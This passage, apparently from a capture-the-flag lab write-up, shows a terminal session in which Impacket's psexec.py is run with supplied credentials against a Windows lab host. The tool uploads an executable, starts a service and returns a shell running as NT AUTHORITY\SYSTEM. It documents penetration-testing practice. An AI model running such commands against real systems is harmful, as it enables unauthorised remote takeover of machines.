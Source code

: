```

oxdf@parrot$ psexec.py 0xdf:0xdf0xdf@10.10.10.237 cmd.exe
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.237.....
[*] Found writable share ADMIN$
[*] Uploading file oxypGsJo.exe
[*] Opening SVCManager on 10.10.10.237.....
[*] Creating service WIad on 10.10.10.237.....
[*] Starting service WIad.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19042.906]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system

```